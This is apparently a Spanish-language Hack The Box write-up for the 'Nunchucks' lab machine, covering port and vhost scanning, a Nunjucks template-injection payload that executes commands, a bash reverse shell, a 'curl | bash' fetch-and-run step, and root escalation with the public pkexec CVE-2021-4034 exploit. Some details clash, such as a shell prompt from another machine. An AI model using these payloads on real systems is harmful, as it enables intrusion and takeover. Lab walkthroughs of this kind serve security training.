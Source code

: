 ```yaml
---
layout: single
title: Nunchucks - Hack The Box
excerpt: "Nunchucks is a easy machine that explores a NodeJS-based Server Side Template Injection (SSTI) leading to an AppArmor bug which disregards the binary&amp;#039;s AppArmor profile while executing scripts that include the shebang of the profiled application.  " 
date: 2024-04-04
classes: wide
header:
  teaser: /assets/images/htb-nunchucks/nunchucks.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:  
  - Pkexec
  - SSTI
  - Nunjucks
---
```


![](/assets/images/htb-nunchucks/nunchucks.png)

Nunchucks is a easy machine that explores a NodeJS-based Server Side Template Injection (SSTI) leading to an AppArmor bug which disregards the binary&amp;#039;s AppArmor profile while executing scripts that include the shebang of the profiled application. 

## Portscan

```
# Nmap 7.94SVN scan initiated Fri Feb 16 16:03:22 2024 as: nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG allPorts 10.10.11.122
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.122 ()	Status: Up
Host: 10.10.11.122 ()	Ports: 22/open/tcp//ssh///, 80/open/tcp//http///, 443/open/tcp//https///	Ignored State: closed (65532)
# Nmap done at Fri Feb 16 16:03:34 2024 -- 1 IP address (1 host up) scanned in 12.94 seconds

```
Y con esto analizamos los puertos abiertos:
```
# Nmap 7.94SVN scan initiated Fri Feb 16 16:04:20 2024 as: nmap -sCV -p22,80,443 -oN targeted 10.10.11.122
Nmap scan report for 10.10.11.122
Host is up (0.049s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6c:14:6d:bb:74:59:c3:78:2e:48:f5:11:d8:5b:47:21 (RSA)
|   256 a2:f4:2c:42:74:65:a3:7c:26:dd:49:72:23:82:72:71 (ECDSA)
|_  256 e1:8d:44:e7:21:6d:7c:13:2f:ea:3b:83:58:aa:02:b3 (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://nunchucks.htb/
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg: 
|_  http/1.1
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Nunchucks - Landing Page
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
| Not valid before: 2021-08-30T15:42:24
|_Not valid after:  2031-08-28T15:42:24
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb 16 16:04:39 2024 -- 1 IP address (1 host up) scanned in 18.62 seconds

```
## Puerto 80

Obtenemos del escaneo de puertos la url de http://nunchucks.htb, asi que vamos a adentrarnos a ver que tiene.

![](/assets/images/htb-nunchucks/pagina1.png)

Analizamos la página y vemos que en esta primera página no se puede hacer nada asi que vamos a buscar subdominios existentes a ver que podemos encontrar:

```
Ricart0@kali:/home/kali/HTB/Nunchucks/nmap -> gobuster vhost --append-domain -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u https://nunchucks.htb -t 200 -k
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             https://nunchucks.htb
[+] Method:          GET
[+] Threads:         200
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: store.nunchucks.htb Status: 200 [Size: 4029]
```
Añadimos el dominio a /etc/hosts, y vamos a buscar a ver que encontramos en la página.

## Página web


![](/assets/images/htb-nunchucks/pagina2.png)

Vemos que en esta página se pueden introducir datos y asi buscar alguna debilidad, vamos a introducir {{7*7}}@test.tets a ver si se podría hacer un SSTI. Vemos que nos devuelve 49@test.test y por tanto existe una debilidad SSTI.
Ahora con el burpsuite (intermediario), vamos a jugar a ver si podemos hacer algo. 
"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()}}@ola.ola"

Vemos que si que nos devuelve el /etc/passwd de la máquina víctima, por tanto podemos ejecutar comandos. 
## Intrusión
Ahora podemos crear un index.html para poder hacer un curl:
```
#!/bin/bash

bash -i >& /dev/tcp/10.10.16.5/443 0>&1

```
Ahora lo compartimos con un servidoe en python3 (python3 -m http.server 80), y nos ponemos en escucha por el puerto 443 (nc -nvlp 443). Y ahora si mandamos un curl que interpretamos con bash.

"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('curl 10.10.16.14 | bash')\")()}}@ola.ola"

Ahora ya estaremos dentro de la máquina víctima. La flag de usuario ya podemos conseguirla. Para que la consola sea totalmente interactiva podemos hacer lo siguiente:
```
script /dev/null -c bash
(Hacemos control+c)
stty raw -echo; fg  
y hacemos reset xterm
```

## Escalada de privilegios

Ahora toca escalar privilegios para obtener la flag de root. Vemos que pkexec se ecuentra otra vez disponible como en muchas de las máquinas, muy vulnerable:
```
strapi@horizontall:~/myapi/config/environments/development$ which pkexec
which pkexec
/usr/bin/pkexec
```
Desde nuestra terminal, vamos a clonarnos este repositorio https://github.com/berdav/CVE-2021-4034 que nos va a escalar el privilegio mediante pkexec, la comprimimos (zip -r comprimido.zip CVE-2021-4034). Desde el equipo de la víctima, obtenemos el zip de nuestro equipo(wget http://10.10.16.6/comprimido.zip). Lo descomprimimos, hacemos make, y lo ejecutamos:
```
david@nunchucks:/tmp/CVE-2021-4034$ ./cve-2021-4034
# cd /root/
# cat root.txt
a5bdba1479e8a34281f6f1d73dcfd804

```
